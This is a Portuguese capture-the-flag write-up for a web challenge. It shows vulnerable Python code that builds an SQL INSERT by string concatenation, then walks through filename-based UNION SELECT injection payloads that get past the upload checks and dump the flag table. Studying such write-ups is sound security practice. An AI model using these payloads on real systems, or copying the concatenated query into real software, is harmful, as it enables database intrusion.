




# Versão Final?
### _WEB_

Baixando os arquivos que foram disponibilizados temos acesso ao código fonte da aplicação. Analisando esse código fonte, encontramos um SQL Injection:
```
 with sqlite3.connect(DATABASE) as conn:
    conn.execute("INSERT INTO images (ip, name) VALUES ('" + ip + "', '" + filename + "');")
    conn.commit()
```

Como o ip não pode ser manipulado pois o mesmo é criptografado com md5, só nos resta editar o nome do arquivo. Para editar o nome do arquivo, precisamos construir um payload em que as verificações de nome do arquivo sejam válidas:
```
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def secure_filename(filename):
    filename = filename.replace('/', '')
    filename = filename.split('.')
    if len(filename) == 2:
        return filename[0]+'.'+filename[1]
    return False
```

A função ```allowed_file()``` apenas verifica se existe apenas 1 extensão e se essa extensão é permitida. Já a função ```secure_filename()``` retira / e . do nome do arquivo.

Então o seguinte nome do arquivo é válido: ```image') PAYLOAD -- -.jpg```. Por fim, temos o payload:
```image') UNION SELECT ip_md5,0x61616161 FROM images -- -```


Acessando ```/list```, além dos nomes de images temos também o valor "1633771873" cadastrado (0x616161 == 1633771873).


Portanto, para a flag:
```image') UNION SELECT ip_md5,flag FROM flag -- -```


Acessando o ```/list```:


FLAG:
```
DC5551{sql1?-r4nd;;}
```
